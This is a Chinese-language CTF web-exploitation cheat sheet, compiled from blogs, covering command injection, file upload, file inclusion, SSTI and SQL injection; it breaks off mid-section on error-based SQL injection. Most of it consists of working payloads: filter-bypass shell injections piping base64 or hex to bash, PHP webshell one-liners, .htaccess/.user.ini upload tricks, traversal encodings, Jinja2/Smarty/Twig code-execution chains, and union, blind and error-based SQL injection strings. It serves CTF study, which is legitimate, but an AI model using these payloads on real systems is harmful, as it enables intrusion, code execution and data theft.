0X00 前言

做题已经快四个月了，接触了大大小小的题型，收藏的大师傅们的解题思路、题型总结的博客已经很多了，每次都要一个一个翻很麻烦，于是写下了这一个总结，实际上是把各大博客内容汇总加上自己的理解编排，对应的博客都在每一个内容的参考文章给出，如有写不清楚之处可去相应文章查阅。一是方便自己查阅相关解题思路，二是提炼思路有一个整体框架

### 0X01 命令执行

#### 漏洞原理

没有对用户输入的内容进行一定过滤直接传给shell_exec、system一类函数执行
 看一个具体例子

```php
<?php 
$str="";
if(!empty($_GET)){
    $str=$_GET["calc"];
}
    echo "result:".shell_exec("echo $str | bc");
?>
```

这里只需要利用`;`将`str`截断，接着可以执行我们自定义的命令了，一个可能的payload： `calc=1;cat /flag;`

#### 绕过过滤

一般的题不会这么简单，往往会对用户的输入进行一定的过滤

**关键字过滤绕过**

```bash
# 关键字过滤
# 用*匹配任意
cat fl*  
cat fla* 
# 反斜线绕过
ca\t fla\g.php  
# 过滤cat可用其他命令，tac/more/less
tac flag.php
# 过滤/
#在linux的系统环境变量中${PATH:0:1}代替/
ls flag_is_here{PATH:0:1}    
# 两个单引号绕过，双引号也可以
cat fl''ag.php    
# 用[]或者{}匹配，[]匹配[]中任意一个字符，{}表示匹配大括号里面的所有模式，模式之间使用逗号分隔
cat fl[a]g.php       
# 变量替换与拼接
a=fl;b=ag;cat $a$b          
# 把flag.php复制为flaG
cp fla{g.php,G}   
# 利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 
ca${21}t a.txt
```

**编码绕过**

```bash
# 编码绕过    
# base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
# hex编码绕过(引号可以去掉)
echo "63617420666c61672e706870" | xxd -r -p | bash       
# sh的效果和bash一样
echo "63617420666c61672e706870" | xxd -r -p | sh 
1234567
```

**空格过滤绕过**

```bash
${IFS}$9
{IFS}
$IFS
${IFS}
#$1改成$加其他数字貌似都行
$IFS$1 
# {command,param}，需要用{}括起来
{cat,flag.php}
# \x09表示tab,\x20空格
X=$'cat\x09./flag.php';$X       
12345678910
```

**嵌套执行**

```bash
?c=eval($_GET[1]);&1=system('cat flag.php');
```

**过滤分号**

```bash
#最后一条语句可不加;直接使用?>闭合
include%0A$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

**payload**

```php
//题目过滤
<?php
	if(!isset($_POST["iipp"]))
		echo '';
	else{
		if(preg_match("/\;|cat|ls|ll|\/|l|:|flag|IFS| |\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x26|\>|\<|\\\\|{|}|\&|\?/i", $iipp)){
			die("hacker!!!");
		}
		$result=shell_exec('ping -c 4 '.$iipp);
		$result=str_replace("\n","<br>",$result);
		echo $result;
?>
//payload
//过滤斜杠，因此必须堆叠注入
//过滤分号，用%0a代替 
//过滤空格，用%09代替
//过滤cat，使用ca''t绕过查看index.php
//过滤l（这题最刁钻的地方），ls无法使用且flag文件名只能用通配，find查看目录结构，配合grep读取flag，但是要注意递归深度，加上-maxdepth

127.0.0.1%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0afind%09.%09-maxdepth%091%09|xargs%09grep%09"ag"%09.&submit=Ping
```

#### 参考文章

[CTFWeb-命令执行漏洞过滤的绕过姿势](https://blog.csdn.net/weixin_39190897/article/details/116247765)
 [关于命令执行/注入 以及常见的一些绕过过滤的方法](https://blog.csdn.net/qq_45552960/article/details/104576189)


### 0X02 文件上传

#### 漏洞原理

[文件上传漏洞](https://so.csdn.net/so/search?q=文件上传漏洞&spm=1001.2101.3001.7020)主要是因为Web应用在设计和开发文件上传功能时，没有对用户上传的文件进行充分的检测及防御，导致恶意的可执行文件上传至Web服务器并造成损害，一般要结合文件包含漏洞配合使用

#### 绕过方式

如果知道了防护手段，就能见招拆招，下列是常见的三种防护方式：

> 1. 对上传文件扩展名进行严格过滤，设置白名单机制只允许特定扩展名文件上传，严格过滤扩展名为“.php、.asp、.bat”等可执行文件上传
> 2. 限制目录权限，对于文件上传目录设置可读、可写、不可执行权限，禁止用户上传的文件在后台执行
> 3. 隐藏文件上传目录，用户上传文件的目标目录对用户隐藏。

- **前端JS验证绕过**
  利用bp抓包修改或者修改JS代码
- **黑白名单绕过**
  常见后缀：phtml、php3、php4、php5、Php、pphphp（适用于空格替换的双写绕过）
  上传成功后，测试是否能够解析
- **文件类型检测**
  检测的方式包括：content-type、内容和文件头等
  判断文件头：抓包在文件内容增加GIF89a
  判断文件内容：制作图片马
- **截断绕过**
  上传文件发现回显保存路径
  成功的条件：php版本小于5.3.4且magic_quotes_gpc=off
- `<?`检测绕过
  - `<script language="php">eval($_POST[cmd]);</script> `

> 1. Get：在上传路径处 …/upload/1.php%00
> 2. Post：对…/upload/1.php后进行16进制hex修改为00
> 3. 抓包修改为：1.php;jpg或者1.php%00.jpg或者1.php/00.jpg

- **条件竞争漏洞**
  文件上传进行验证的短暂时间内,服务器对传入的文件进行了临时保存，在这短暂时间内php是可以解析的
  利用bp抓包，设置多线程，不断发包；浏览器访问连接我们上传的木马文件

```python
//连接脚本
import requests
url = "http://127.0.0.1/upload-labs/upload/shell.php.7z"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
    else:
	    print("NO")
```

- apache解析漏洞绕过

  1. 上传图片马evil.php.xxx.abc

  2. 上传.htaccess，内容为

     ```php
      <FilesMatch "evil.php.xxx.abc">
     	       SetHandler application/x-httpd-php
      </FilesMatch>
     ```

- .user.ini

  跟.htaccess后门比，适用范围更广，nginx/apache/IIS都有效，而.htaccess只适用于apache

  条件：   

  - 服务器脚本语言为PHP

  - 服务器使用CGI／FastCGI模式

  - 上传目录下要有可执行的php文件

    ```php
    GIF89a                  //绕过exif_imagetype()
    auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。
    auto_append_file=a.jpg  //解析后进行包含
    ```

还有其他绕过的姿势，由于笔者还没有遇到过相关题型无法确定绕过方式的有效性，暂时不具体细说（比如evil.php/.），比如win系统解析漏洞绕过、iis6.0 6.5 版本解析漏洞以及nginx解析漏洞，详情可见参考文章

#### 参考文章

[文件上传漏洞原理、防御、绕过](https://blog.csdn.net/qq_43455259/article/details/125064968)
 图源看雪论坛




### 0X03 文件包含

#### 漏洞原理

通过PHP函数引入文件时，传入的文件名没有经过合理的验证，从而操作了预想之外的文件，就可能导致意外的文件泄漏甚至恶意代码注入，引发漏洞的环境要求为：

- allow_url_fopen=On（默认为On）
- allow_url_include=Off（5.2版本后默认为Off）

引发漏洞的函数包括`include()`、`require()`、`include_once()`以及`require_once()`

#### 包含方式

##### PHP伪协议

允许访问 PHP 的输入输出流、标准输入输出和错误描述符

- **file://**
  file:///etc/passwd、file://key.txt
- **php://**
  - php://input
    [post data] <?php phpinfo(); ?>
  - php://filter
    
- **data://**
  类似于php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。
  
- **phar://、zip://**
  - phar://数据流包装器自PHP5.3.0起开始有效
  - phar://E:/phpstudy/www/1.zip/phpinfo.txt
  - zip://[压缩包绝对路径]#[压缩包内文件]



##### Apache日志文件包含

利用条件：

- 日志文件可读
- 日志存储目录已知（读取服务器配置文件httpd.conf、nginx.conf或者phpinfo()）

Apache运行后一般默认会生成两个日志文件，Windos下是access.log（访问日志）和error.log(错误日志)，Linux下是access_log和error_log，访问日志文件记录了客户端的每次请求和服务器响应的相关信息。
 如果访问一个不存在的资源时，如http://www.xxxx.com/<?php phpinfo();  ?>,则会记录在日志中，但是代码中的敏感字符会被浏览器转码，我们可以通过burpsuit绕过编码，就可以把<?php  phpinfo(); ?> 写入apache的日志文件

##### Session文件包含

利用条件：

- session内可控变量
- session文件可读写，存储路径已知（路径可在phpinfo的session.save_path得到）   
  - 常见存储路径：     
    - /var/lib/php/sess_PHPSESSID
    - /tmp/sess_PHPSESSID
    - /tmp/sessions/sess_PHPSESSID
  - Session文件格式     
    - sess_[phpsessid] ，phpsessid 在发送的请求的 cookie 字段中

##### 临时文件包含


 php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件

文件名获取方法：

- 暴力猜解
- phpinfo php varirables获取上传文件的存储路径和临时文件名

##### 上传文件包含

```
很多网站通常会提供文件上传功能，配合上传文件漏洞，访问上传的文件
1
```

##### 其他包含

- SMTP日志
- xss

#### 绕过方式

##### 目录穿越

```
使用 ../../ 来返回上一目录
1
```

##### 编码绕过…/过滤

- url编码

> ` ../`
> %2e%2e%2f
> …%2f
> %2e%2e/
>
> `..\`
> %2e%2e%5c
> …%5c
> %2e%2e\

- 二次编码绕过（服务端额外做了一次URL解码，为了方便utf-8编码）

> `../`
> %252e%252e%252f
> `..\`
> %252e%252e%255c

- 容器/服务端编码绕过

> ```
> ../
> ..%c0%af
> 注：Why does Directory traversal attack %C0%AF work?
> 
> %c0%ae%c0%ae/
> 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
> Apache Tomcat Directory Traversal
> 123456
> ..\
> ..%c1%9c
> ```

##### 指定后缀绕过

- URL query或fragment绕过

  ```
  protocol :// hostname[:port] / path / [;parameters][?query]#fragment
  ```

   绕过强制添加的后缀   

  - query（?）

> ```
> [访问参数] ?file=http://localhost:8081/phpinfo.php?
> [拼接后]  ?file=http://localhost:8081/phpinfo.php?.txt
> ```

```
- fragment（#）
```

> [访问参数] ?file=http://localhost:8081/phpinfo.php%23
> [拼接后]  ?file=http://localhost:8081/phpinfo.php#.txt

- 长度截断   
  - php版本< 5.2.8
  - 原理：     
    - Windows下目录最大长度为256字节，超出的部分会被丢弃
    - Linux下目录最大长度为4096字节，超出的部分会被丢弃。
  - 利用方法(windows可直接用.截断)     
    - `?file=./././·······/./shell.php`
- %00截断   
  - magic_quotes_gpc = Off
  - php版本< 5.3.4
  - 利用方式     
    - ?file=shell.php%00

#### 参考文章

[CTF中文件包含漏洞总结](https://blog.csdn.net/qq_42181428/article/details/87090539?utm_medium=distrib)
 [php文件包含哪些,PHP文件包含小总结](https://blog.csdn.net/weixin_39714164/article/details/115726778)
 图源看雪论坛
 

### 0X04 SSTI

#### 漏洞原理

服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题.
 渲染方法有`render_template`和`render_template_string`两种

- `render_template`是用来渲染一个指定的文件的。例如：return render_template(‘index.html’)
- `render_template_string`则是用来渲染一个字符串的

举个例子，我们输入{{7*7}}，符合模板引擎的规则，自然而然会计算出49

```python
@app.errorhandler(404)
def page_not_found(e):
    template = '''{%% extends "layout.html" %%}
{%% block body %%}
    <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>
    </div>
{%% endblock %%}
''' % (request.url)
    return render_template_string(template), 404
```

#### 攻击方式

首先要明白，只要用到了模板，就可能存在模板注入漏洞，SSTI不属于任何一种语言，沙盒绕过也不是，沙盒绕过是为模板引擎漏洞设计出来的防护机制，不允许使用没有定义或者声明的模块。

##### 常见的模板引擎

- php   
  - Smarty
  - Twig
  - Blade
- Java   
  - JSP
  - FreeMaker
  - Velocity
- Python   
  - Jinjia2
  - django
  - tornado
    

##### 利用方法

以出题最常见的Jinjia2为例，说明利用方法，所有的模板引擎利用思路都是一样的，只是使用的语法不同

1. 获取基类

```python
{{[].__class__}}
''.__class__.__mro__[2]
().__class__.__base__
[].__class__.__bases__[0]      
```

1. 获取所有继承自object的类

```python
''.__class__.__mro__[2].__subclasses__()  
# list.index输出想要的类的位置
''.__class__.__mro__[2].__subclasses__().index(file)
```

1. 寻找可利用类
   import requests
   import time
   import html

```python
for i in range(1, 500):
    url = "ip/?search={{''.__class__.__mro__[2].__subclasses__()["+str(i)+"]}}"
    req = requests.get(url)
    time.sleep(0.1)
    # class_you_look_for为你想要寻找的类
    if "class_you_look_for" in html.escape(req.text):
        print(i)
        print(html.unescape(req.text))
        break
```

1. 利用方法
   找到位置后调用执行命令

- <type ‘file’>

```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```

- <class ‘site._Printer’>
  使用os的popen执行命令

```python
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}

[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()

[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()
```

如果system被过滤，使用os的listdir读取目录+file模块读取文件：

```python
().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')
```

- <class ‘subprocess.Popen’>

```python
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

{{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}

{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

- <class ‘warnings.catch_warnings’>
  一般位置为59，可以用它来调用file、os、eval、commands等

```python
# 调用file，把 read() 改为 write() 就是写文件
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()   
# import os
[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('ls /').read()
#调用eval
[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")
[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['ev'+'al']('__imp'+'ort__("os").po'+'pen("ls ./").read()')
# 调用system
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
# commands命令执行
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
```

#### 绕过方式

##### 过滤[]

- 使用`__getitem__`
- 使用`pop()`，但是pop会删除里面的键

```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag').read()}}
1
```

- 使用`get()`，返回指定键的值，如果值不在字典中返回default值
- 使用`setdefault()`，和get()类似, 但如果键不存在于字典中，将会添加键并将值设为default

```python
{{url_for.__globals__['__builtins__']}}
{{url_for.__globals__.__getitem__('__builtins__')}}
{{url_for.__globals__.pop('__builtins__')}}
{{url_for.__globals__.get('__builtins__')}}
{{url_for.__globals__.setdefault('__builtins__')}}
```

##### 过滤.

```python
().__class__
()["__class__"]
()|attr("__class__")
().__getattribute__("__class__")
1234
```

##### 过滤[’’] (’’) {}

```python
# request传参
request.args.x1   	get传参
request.values.x1 	get、post传参
request.cookies
request.form.x1   	post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		post传参	(Content-Type:a/b)
request.json		post传json  (Content-Type: application/json)
# e.g. 
{{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5)}}
x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__('os').popen('cat /flag').read()
12345678910
```

##### 过滤关键字

```python
# 单引号双引号都可，+号可省略
"cla"+"ss"
# 反转
"__ssalc__"[::-1]
# ascii转换
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
# 编码绕过
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
# 对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")
# 利用chr函数
#先找到builtins

{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
# format
"%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)=='__class__'
""["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
#Jinjia2可用~拼接
{{""[a~b]}}
#大小写转换，若只过滤了小写
""["__CLASS__".lower()]
""["__CLASS__"|lower]
# join
""[['__clas','s__']|join]==""[('__clas','s__')|join]==""["__class__"]
# replace
"__claee__"|replace("ee","ss")
# reverse
"__ssalc__"|reverse
# select拼接
(()|select|string)[24]~
(()|select|string)[24]~
(()|select|string)[15]~
(()|select|string)[20]~
(()|select|string)[6]~
(()|select|string)[18]~
(()|select|string)[18]~
(()|select|string)[24]~
(()|select|string)[24]~ == "__class__"
# url_for和get_flash_message
get_flashed_messages.__globals__['current_app'].config
get_flashed_messages.__globals__['builtins']['eval']
url_for._globals_[‘current_app’].config
url_for._globals_['builtins']['eval']
```

#### 一些payload

##### python2

```python
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')
123456
```

##### python3

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']
```

##### Jinjia2通用payload

```python
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}
# 盲注
~p0~
```

##### Smarty

```python
#版本号
{$smarty.version}
#php指令，smarty3弃用
{php}{/php}
#php7无法使用
<script language="php">phpinfo();</script>
#静态方法
public function getStreamVariable($variable){ $_result = ''; $fp = fopen($variable, 'r+'); if ($fp) { while (!feof($fp) && ($current_line = fgets($fp)) !== false) { $_result .= $current_line; } fclose($fp); return $_result; } $smarty = isset($this->smarty) ? $this->smarty : $this; if ($smarty->error_unassigned) { throw new SmartyException('Undefined stream variable "' . $variable . '"'); } else { return null; } }
#payload
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if system('cat /flag')}{/if}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

##### twig

```python
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

##### shtml

```python
<!--#exec cmd=""-->
```

##### Tornado

格式类似于jinjia2
 `cookie_secret`在`Application`对象`settings`的属性中 ，访问它的话就需要知道它的属性名字
 `self.application.settings`有一个别名是`RequestHandler.settings`，其中`handler`又是指向处理当前这个页面的`RequestHandler`对象，`RequestHandler.settings`指向`self.application.settings`，因此`handler.settings`指向`RequestHandler.application.settings`

##### GO模板注入

`{{.secret_key}}`或`{{.}}`，注意有个占位符`.`
 [Go template](https://pkg.go.dev/text/template)
 [Go SSTI初探](https://tyskill.github.io/posts/gossti/)

#### 参考文章

[模板注入总结(SSTI)](https://blog.csdn.net/qq_44657899/article/details/104307948?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-1.pc_relevant_default&spm=1001.2101.3001.4242.2&utm_relevant_index=4)
 [SSTI利用思路 ](https://www.cnblogs.com/lktop/p/13775854.html)
 [SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)

### 0X05 SQL注入

#### 漏洞原理

web应用程序对用户输入数据的合法性没有判断或过滤不严格，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息

在页面中有数据交互的地方，攻击者构造sql语句，使web服务器执行恶意命令访问数据库。

SQL注入漏洞满足的两个条件：

```
- 参数用户可以控制
- 参数可以带入数据库查询
12
```

构造语句是数据库报错，根据报错判断是否存在SQL注入

#### 攻击方式

##### 基础知识

```
information_schema`：`SCHEMATA`、`TABLES`、`COLUMNS
```

- SCHEMATA：存储的库名
- TABLES：记录了用户创建的所有数据库的库名(TABLE_SCHEMA)和表名(TABLE_NAME)
- COLUMNS：存储了该用户创建的所有数据库的库名(TABLE_SCHEMA)、表名(TABLE_NAME)和字段名(COLUMN_NAME)

##### **注释符**

- `#`：注释从#字符到行尾
- `--`：注释从–序列到行尾，使用注释时，后面需要跟一个或多个空格
- `/**/`：注释`/**/`中间的字符，若`/**/`中间有感叹号，则有特殊意义，如`/*！55555,username*/`，若mysql版本号高于或等于5.55.55，语句将会被执行，如果！后面不加入版本号，mysql将会直接执行SQL语句

##### 类型

SQL注入可分为字符型和数字型,字符型注入要注意字符串闭合问题
 数字型猜测SQL语句为`select * from table where id=8`
 字符型猜测SQL语句为`select * from table where username='admin'`

##### Union注入

Mysql允许复合查询(多个SELECT语句并列查询)，并将返回单个结果集。这些组合查询通常称为并或复合查询。

```sql
/*注入存在判断*/
?id=1
?id=1'
?id=1' and 1=1 --+
?id=1' and 1=2 --+

/*判断字段数*/
?id=1' order by 3 --+

/*union查询库名和用户*/
?id=-1' union select 1,database(),user() --+
/*查询表名*/
?id=-1' union select 1,database(),(select group_concat(table_name) from information_schema.tables where table_schema='security' ) --+
/*查询字段*/
?id=-1' union select 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='emails' ) --+
/*查询数据*/
id=-1' union select 1,database(),(select group_concat(id,email_id) from emails  ) --+
```

##### Bool盲注

布尔盲注就是根据页面返回的true和flase猜测

```sql
length(str)：返回str字符串的长度
substr(str, pos, len)：将str从pos位置开始截取len长度的字符返回。注意这里的pos位置是从1开始的，不是数组的0开始
mid(str,pos,len):跟上面的一样，截取字符串ascii(str)：返回字符串str的最左面字符的ASCII代码值
ord(str):返回ascii码
if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

/*注入存在判断*/
id=1  显示数据
id=1' 不显示数据

/*测试数据库长度*/
id=1’ and length(database())=1 --+
/*判断数据库名，结合burp cluster bomb爆破*/
id=1' and substr(database(),1,1)='s' --+
/*爆表名*/
id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' --+
/*爆字段名*/
id=1' and substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)='d' --+
/*爆字段内容*/
id=1' and substr((select email_id from emails limit 0,1),1,1)='x' --+
1234567891011121314151617181920
```

##### 时间盲注

时间盲注和布尔盲注很像，页面不返回任何信息，采用延迟函数根据页面反应的时间进行判断是否存在注入点

```sql
# 爆数据库长度
?id=1' and if(length(database())>1,sleep(6),1) --+
# 爆数据库名
?id=1' and if(substr(database(),1,1)='s',sleep(6),1) --+
# 爆表名
?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(6),1) --+
# 爆字段名
?id=1' and if(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)='d',sleep(6),1) --+
# 爆字段内容
?id=1' and if(substr((select email_id from emails limit 0,1),1,1)='x',sleep(6),1) --+
12345678910
```

##### 报错注入

- updataxml

```sql
updatexml(Xml_document,Xpathstring,new_value)
    Xml_document：目标文档
    Xpathstring：路径
    new_value：更新的值

爆数据库名：
username=1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
爆数据库表名：
username=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ),0x7e),1) --+
爆字段名：
username=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+
爆数据值：
username=1' and updatexml(1,substring(concat(0x7e,(select group_concat(username,0x3a,password,0x3a) from test.users),0x7e),32,64),1) --+
12345678910111213
```

- extractvalue

```sql
extractvalue(Xml_document,XMLstring)
    Xml_document：目标文档
    Xpathstring：XML路径
爆数据库名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select database())))) --+
爆数据库表名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='test')))) --+
爆字段名：
